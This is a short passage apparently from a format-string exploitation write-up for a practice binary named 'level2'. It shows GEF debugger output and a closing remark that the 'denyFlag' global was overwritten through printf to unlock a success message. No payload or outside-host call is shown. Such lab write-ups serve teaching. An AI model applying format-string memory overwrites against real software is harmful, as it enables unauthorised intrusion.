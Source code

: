```r
$esi   : 0xf7fad000  →  0x001d7d6c
$edi   : 0x0       
$eip   : 0x0804863e  →  <main+147> mov eax, ds:0x804a04c
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
─────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcf80│+0x0000: 0x00000000	 ← $esp
0xffffcf84│+0x0004: 0x00c30000
0xffffcf88│+0x0008: 0x00000000
0xffffcf8c│+0x000c: 0xffffd094  →  0xffffd260  →  "/home/d4mianwayne/Pwning/fmt/level2"
0xffffcf90│+0x0010: 0x00000000
0xffffcf94│+0x0014: 0x00000000
0xffffcf98│+0x0018: 0x00000000
0xffffcf9c│+0x001c: 0x0804a04c  →  0x00000004
───────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8048634 <main+137>       mov    ah, 0x50
    0x8048636 <main+139>       call   0x8048420 <printf@plt>
    0x804863b <main+144>       add    esp, 0x10
 →  0x804863e <main+147>       mov    eax, ds:0x804a04c
    0x8048643 <main+152>       test   eax, eax
    0x8048645 <main+154>       je     0x8048669 <main+190>
    0x8048647 <main+156>       sub    esp, 0xc
    0x804864a <main+159>       push   0x804873a
    0x804864f <main+164>       call   0x8048460 <puts@plt>
───────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "level2", stopped 0x804863e in main (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x804863e → main()
──────────────────────────────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x0804863e in main ()
gef➤  x/wx 0x0804a04c
0x804a04c <denyFlag>:	0x00000004
gef➤  c
Continuing.
Wow, you got it!
Hello World
[Inferior 1 (process 14257) exited normally]
[*] No debugging session active
```


We have successfully overwritten the `denyFlag` vaue. 

---
